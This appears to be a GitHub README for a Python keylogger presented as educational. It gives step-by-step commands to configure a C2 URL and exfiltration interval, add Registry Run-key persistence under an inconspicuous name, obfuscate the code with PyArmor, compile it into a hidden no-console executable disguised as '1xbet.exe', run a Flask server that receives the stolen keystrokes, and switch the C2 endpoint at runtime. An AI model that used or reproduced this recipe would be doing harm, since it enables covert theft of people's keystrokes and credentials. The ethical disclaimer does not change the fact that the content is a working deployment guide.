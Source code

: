 # keyloger
A keyloger to demonstrate a keyloging attack just for learning basis

This guide outlines the step-by-step process for manually configuring your educational keylogger (loger.py), compiling it into a Windows executable, and setting up the Flask server (simple_log_receiver.py) for log reception and dynamic C2 URL changes.
Crucial Ethical Reminder:
This documentation is provided purely for educational purposes to understand cybersecurity concepts. Never deploy or experiment with this code on any system you do not own or have explicit, documented permission to test on. Always use an isolated virtual machine environment.
1. Prerequisites & Setup
Before you begin, ensure you have the following installed on your Windows virtual machine and that your Python environment is set up.
* Python 3.x: Installed and configured in your system's PATH.
* Required Python Libraries:
   * pynput (for keylogging)
   * pyinstaller (for compiling Python to .exe)
   * pyarmor (for obfuscation)
   * requests (for HTTP communication in the keylogger)
   * Flask (for the log receiving server)
You can install these by opening a Command Prompt or PowerShell and running:pip install pynput pyinstaller pyarmor requests Flask

* Your Source Files:
   * Save your keylogger's Python code as loger.py.
   * Save your Flask server's Python code as simple_log_receiver.py.
   * Place both files in a dedicated project directory (e.g., C:\KeyloggerProject\). For this guide, we'll assume C:\Users\harsh\Downloads\asdf as your working directory.
2. Manually Configure loger.py (Keylogger Source)
You need to edit loger.py directly to set its initial C2 server URL and the log exfiltration interval, as well as the persistence application name.
1. Open loger.py in a text editor (like Notepad++, VS Code, Sublime Text).
2. Locate and modify the following lines in the --- Configuration --- section:
   * C2_URL (Initial Server URL):
Change the value within the quotes to your Flask server's URL. For local testing, this will typically be http://localhost:8000/upload_logs.
C2_URL = "http://localhost:8000/upload_logs" # <-- CHANGE THIS

   * EXFILTRATION_INTERVAL_SECONDS (Log Sending Frequency):
Set this to your desired interval in seconds.
   * For every minute: 60
   * For every 5 minutes: 300
   * For every 10 minutes: 600
   * For every hour: 3600
   * For every day: 86400
EXFILTRATION_INTERVAL_SECONDS = 180 # Example: 3 minutes. <-- CHANGE THIS

   * PERSISTENCE_APP_NAME (Registry Entry Name):
This is the name that will appear in the Windows Registry's Run key to achieve persistence. Choose something inconspicuous.
PERSISTENCE_APP_NAME = "WindowsCoreService" # <-- You can change this name if desired

      3. Save loger.py after making these changes.
3. Obfuscate with PyArmor
This step obfuscates your Python code to make reverse engineering more difficult.
      1. Open Command Prompt or PowerShell.
      2. Navigate to the Python Scripts Directory:
Many Python tools installed via pip (especially with Microsoft Store Python installations) place their executables in a Scripts subdirectory within your Python installation. For your setup, this is likely:
C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts
To ensure PyArmor is found, navigate to this directory in your terminal first:
cd C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts

(Replace C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts with the actual path to your Python's Scripts directory if it differs).
      3. Run the PyArmor obfuscation command. This will create a temporary obfuscated version of your loger.py in a new subdirectory named pyarmor_obfuscated_source within your original project folder.
.\pyarmor gen C:\Users\harsh\Downloads\asdf\loger.py --output C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source

         * .\pyarmor gen: Executes the pyarmor tool from the current directory.
         * C:\Users\harsh\Downloads\asdf\loger.py: The full path to your original loger.py source file.
         * --output C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source: Specifies that the obfuscated output (including loger.py and its runtime files) should be placed in a directory named pyarmor_obfuscated_source within your original project folder.
After this command, you will find your obfuscated script at: C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source\loger.py.
4. Compile with PyInstaller
Now, you'll compile the obfuscated keylogger into a standalone executable (.exe).
         1. In the same Command Prompt or PowerShell window (still in C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts).
         2. Run the PyInstaller command. This will create your final executable in a new dist folder within your original project directory.
.\pyinstaller --onefile --noconsole --name 1xbet --hidden-import pynput.keyboard._win32 --hidden-import pynput.mouse._win32 --collect-all requests --collect-all platform --collect-all socket --collect-all uuid C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source\loger.py --distpath C:\Users\harsh\Downloads\asdf\dist

            * .\pyinstaller: Executes the pyinstaller tool from the current directory.
            * --onefile: Creates a single executable file.
            * --noconsole: Prevents a console window from appearing when the .exe is run (for stealth).
            * --name 1xbet: Sets the name of your final executable to 1xbet.exe. You can change 1xbet to any desired process name (e.g., WinHost, TaskMgrService).
            * --hidden-import ... --collect-all ...: These flags ensure that PyInstaller correctly bundles all necessary modules and their dependencies, preventing ModuleNotFoundError errors at runtime.
            * C:\Users\harsh\Downloads\asdf\pyarmor_obfuscated_source\loger.py: This is the crucial input path, pointing to the obfuscated version of your keylogger.
            * --distpath C:\Users\harsh\Downloads\asdf\dist: This explicit flag tells PyInstaller to place the final .exe in C:\Users\harsh\Downloads\asdf\dist, overriding its default behavior of creating dist in the current working directory (C:\Users\harsh\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts).
After this command, your compiled executable will be located at: C:\Users\harsh\Downloads\asdf\dist\1xbet.exe (or whatever name you chose).
5. Run the Flask Log Receiver Server
This server will listen for incoming logs from your keylogger.
            1. Open a NEW Command Prompt or PowerShell window.
            2. Navigate to your project directory (e.g., cd C:\Users\harsh\Downloads\asdf).
            3. Run the Flask server:
python simple_log_receiver.py

The server will start listening on http://0.0.0.0:8000 (which is accessible via http://localhost:8000 from your VM). Keep this window open.
6. Deploy and Test the Keylogger
               1. Locate your compiled executable: Go to C:\Users\harsh\Downloads\asdf\dist\.
               2. Run the executable: Double-click 1xbet.exe (or your chosen name). A console window should not appear.
               3. Verify Process: Open Task Manager (Ctrl+Shift+Esc), go to the "Details" tab, and look for 1xbet.exe (or your chosen name) running in the background.
               4. Type Keystrokes: Open Notepad, a web browser, or any application and type various characters, spaces, and use the Enter key.
               5. Check Server Logs: Observe the Flask server's Command Prompt window. You should see logs appearing there after the EXFILTRATION_INTERVAL_SECONDS has passed.
               6. Verify Persistence:
               * Restart your VM.
               * After logging in, check Task Manager again to confirm 1xbet.exe (or your chosen name) is automatically running.
               * You can also check the Registry Editor (regedit.exe) at HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run for an entry named WindowsCoreService (or your chosen PERSISTENCE_APP_NAME) pointing to the executable in %APPDATA%\SystemData_svc.
7. Dynamically Change C2 Server URL (During Runtime)
Your Flask server has an endpoint that allows you to instruct the keylogger to switch its C2 URL.
               1. Ensure your Flask server is running (from Step 5).
               2. Open a web browser in your VM.
               3. Visit the /set_next_c2 endpoint with your desired new URL.
For example, to make the keylogger send logs to http://localhost:8000/new_log_path (you would need to create a new endpoint in your Flask app for new_log_path), you would type:
http://localhost:8000/set_next_c2?url=http://localhost:8000/new_log_path

Press Enter. You should see a confirmation message in the Flask server's terminal.
               4. Observe Keylogger Behavior: The next time your keylogger sends logs (after the EXFILTRATION_INTERVAL_SECONDS passes), it will receive this new URL. Subsequent log uploads from that keylogger instance will then be directed to http://localhost:8000/new_log_path. You will see this reflected in the Flask server's output as logs arrive at the new endpoint.
By following these manual steps, you gain a deeper understanding of each stage involved in building and controlling such an educational keylogger. Remember to adhere to ethical guidelines and always operate within your controlled VM environment.
